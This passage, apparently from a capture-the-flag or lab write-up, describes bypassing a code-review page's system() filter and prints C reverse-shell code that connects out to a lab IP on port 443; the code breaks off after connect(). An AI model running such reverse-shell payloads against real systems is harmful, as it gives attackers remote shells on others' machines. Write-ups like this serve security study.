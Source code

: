 submit.php didn't provide any interesting information, but codereview.php showed a text area where I could input code for review. 

->![](/images/2015-01-04/01.png)<-

I initially started out by trying PHP code to execute reverse shells, but nothing appeared to work. If the submitted entry contained the a call to system(), it returned an error stating that code containing the system() function wouldn't be reviewed. It occurred to me that perhaps it was C code that was being reviewed, and not PHP. I tried the following C code which would give me a reverse shell on port 443: 

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("192.168.180.129");
    sa.sin_port = htons(443);

    s = socket(AF_INET, SOCK_STREAM, 0); 
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
```